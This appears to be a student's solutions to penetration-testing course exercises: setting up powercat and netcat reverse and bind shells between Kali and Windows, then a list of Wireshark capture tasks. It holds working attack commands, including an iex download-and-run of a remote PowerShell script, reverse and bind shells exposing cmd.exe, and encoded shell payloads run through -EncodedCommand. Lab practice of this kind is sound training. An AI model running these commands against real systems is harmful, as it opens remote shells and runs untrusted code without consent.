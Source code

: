 On Kali run the listener:
```
nc -lnvp 4445
```

On Windows, from powershell, run:
```
iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
powercat -c 10.0.2.15 -p 4445 -e cmd.exe
```

2. Use PowerShell and powercat to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use powercat to connect to it locally?

On Windows:
```
powercat -l -p 4445 -e cmd.exe
```

Connect from Kali:
```
$ nc 10.0.2.4 4445
Microsoft Windows [Version 10.0.19041.572]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\User>
```

It does connect locally from powercat:
```
 powercat -c localhost -p 4445
dir
Microsoft Windows [Version 10.0.19041.572]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\User>
```

3. Use powercat to generate an encoded payload and then have it executed through powershell. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.

Generate the payloads:
```
powercat -l -p 4445 -e cmd.exe -ge > bind_shell.ps1
powercat -c 10.0.2.15 -p 4445 -e cmd.exe -ge > reverse_shell.ps1
```

To execute them, create another powershell script that stores the entire payload contents in a variable and the executes it:
```
$encoded = "{{payload_contents}}"
powershell -EncodedCommand $encoded
```

### 4.4.5.1 (page 99) (WIRESHARK - IT NEEDS THE LAB!!!)
1. Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on port 110 using Netcat, and then attempt to log into it.
2. Read and understand the output. Where is the three-way handshake happening? Where is the connection closed?
3. Follow the TCP stream to read the login attempt.
4. Use the display filter to only monitor traffic on port 110.
5. Run a new session, this time using the capture filter to only collect traffic on port 110.
